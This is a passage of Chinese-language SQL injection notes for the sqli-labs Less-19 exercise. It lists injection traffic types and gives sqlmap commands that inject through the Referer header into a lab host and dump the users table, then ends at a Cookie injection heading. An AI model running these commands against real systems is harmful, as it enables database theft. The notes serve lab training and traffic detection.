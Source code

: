 ![image-20240807151852464](../../../../repo/assets/19.SQL注入/image-20240807151852464.png)

### **三、流量分析**

- 盲注流量
- 时间盲注流量
- 布尔盲注流量
- 报错函数流量
- Undatexml
- Extractvalue
- floor



## **Sqlmap 进行 http 头注入及流量分析**

### **一、利用 sqlmap 进行头注入的方式**

利用 sqlmap 的方式（适用于 Less-19 的 http 头注入）

指定注入位置进行注入,在保存的文件中，对于参数的修改为`*`。

```
Sqlmap -r /root/sqli_Less-19.txt --batch --level 4 --dbs
```

Sqlmap 探测结果



#### sqlmap报错注入less-19

`Referer`

```
sqlmap -u "http://192.168.70.14:8088/Less-19/" --data "uname=admin&passwd=admin"  --batch --purge --technique E --level 4 -p Referer --dbs
sqlmap -u "http://192.168.70.14:8088/Less-19/" --data "uname=admin&passwd=admin"  --batch --purge --technique E --level 4 -p Referer -D security --tables
sqlmap -u "http://192.168.70.14:8088/Less-19/" --data "uname=admin&passwd=admin"  --batch --purge --technique E --level 4 -p Referer -D security -T users --column  
sqlmap -u "http://192.168.70.14:8088/Less-19/" --data "uname=admin&passwd=admin"  --batch --purge --technique E --level 4 -p Referer -D security -T users --dump
```



### **二、**sql**注入头注入流量分析**

- 1、大量的 sql 注入请求
- 2、请求中具有 sql 注入的常用关键字



## **Cookie 注入及流量分析**

### **一、cookie** **知识介绍**
